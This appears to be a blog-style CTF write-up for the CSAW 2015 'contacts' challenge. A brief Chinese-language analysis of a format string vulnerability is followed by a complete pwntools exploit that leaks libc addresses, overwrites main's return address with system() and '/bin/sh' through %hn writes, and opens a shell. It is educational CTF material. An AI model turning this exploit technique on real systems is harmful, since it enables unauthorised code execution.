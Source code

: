 ```yaml
---
layout: post
title: "csaw contacts_local"
date: 2015-09-21 01:12:39 +0800
comments: true
categories: 
---
```

0x00 分析

	int __cdecl disp_each_item(int a1, int a2, int a3, char *format)
	{
	  printf("\tName: %s\n", a1);
	  printf("\tLength %u\n", a2);
	  printf("\tPhone #: %s\n", a3);
	  printf("\tDescription: ");
	  return printf(format);
	}
明显的格式化字符串漏洞，先更改栈上的一个地址的低4位，可以改写栈附近的地址的高低4位，则可以再次改写任意地址,
程序nx,堆不可执行不确定，bss不可执行,官方没给libc版本，只好在本地测试，将main的eip改成system,后面加上/bin/sh的字符串地址和字符串


###0x01 exp

	from pwn import *

	#r = remote("192.168.56.101", 6666)
	r = process('./contacts')
	f = open("input", "w")


	def sl(t):
		r.sendline(t)
		f.write(t + "\n")



	def create(name, phone, desp):
		print r.recvuntil(">>>")
		sl("1")
		print r.recvuntil("Name:")
		sl(name)
		print r.recvuntil("nter Phone No:")
		sl(phone)
		print r.recvuntil("Length of description:")
		sl(str(len(desp)))
		print r.recvuntil("Enter description:")
		sl(desp)


	def remove(name):
		print r.recvuntil(">>>")
		sl("2")
		print r.recvuntil("Name to remove?")
		sl(name)


	def editdesp(name, desp):
		print r.recvuntil(">>>")
		sl("3")
		print r.recvuntil("Name to change?")
		sl(name)
		print r.recvuntil("description")
		sl('2')
		print r.recvuntil("description:")
		sl(str(len(desp)))
		print r.recvuntil("escription:")
		sl(desp)



	def disp():
		print r.recvuntil(">>>")
		sl("4")
		data = ''
		for i in range(3):
			data += r.recv(35)
			sleep(0.5)
		print data	
		return data

	def rebig(t):
		return int(hex(t)[2:6], 16)
	def resmall(t):
		return int(hex(t)[6:10], 16)



	def leakmem(n):
		create('n0', '10080', "%" + str(n) + "$p")
		data = disp()
		start = data.find("0x")
		data = data[start+2: start+10]
		remove('n0')
		return data


	s_6 = 0xfc58
	s_18 = 0xfc88
	s_18_ = 0xfc8a
	maineip = 0xfc8c
	real_18addr = 0
	real_18_addr = 0
	real_main_eip = 0
	real_main_eip_ = 0

	l_puts = 401904
	l_system = 241312
	r_puts = int(leakmem(2),16) - 11
	r_system = l_system - l_puts + r_puts

	create('n0', '10080', "%18$p")
	data = disp()
	start = data.find("0x")
	real_18addr = int(data[start+2: start+10], 16)
	real_18_addr = real_18addr + 2
	real_main_eip = maineip - s_18 + real_18addr
	real_main_eip_ = maineip - s_18 + real_18addr + 2
	editdesp('n0', 'dddd')



	def change(text):
		pay = "%" + str(resmall(real_18_addr)) + "x%6$hn"
		create('n1', '10086', pay)
		pay = "%" + str(rebig(text)) + "x%18$hn"
		create('n2', '10086', pay)
		pay = "%" + str(resmall(real_18addr)) + "x%6$hn"
		create('n3', '10080', pay)
		pay = "%" + str(resmall(text)) + "x%18$hn"
		create('n4', '10080', pay)
	def change_addr(addr,cont):
		change(addr)
		pay = "%" + str(resmall(cont)) + "x%30$hn"
		create('n5', '10068', pay)
		disp()
		remove('n1')
		remove('n2')
		remove('n3')
		remove('n4')
		remove('n5')
		
		change(addr+2)
		pay = "%" + str(rebig(cont)) + "x%30$hn"
		create('n5', '10086', pay)
		disp()
		remove('n0')
		remove('n1')
		remove('n2')
		remove('n3')
		remove('n4')
		remove('n5')

	binsh1 = 0x69622f41
	binsh2 = 0x68732f6e


	change_addr(real_main_eip, r_system)
	change_addr(real_main_eip + 8, real_main_eip + 13)
	change_addr(real_main_eip + 12, binsh1)
	change_addr(real_main_eip + 16, binsh2)


	print ("system",hex(r_system))
	print ("real_18addr",hex(real_18addr))
	print ("real_18_addr",hex(real_18_addr))
	print ("real_main_eip",hex(real_main_eip))
	print resmall(real_main_eip)

	f.close()
	r.interactive()
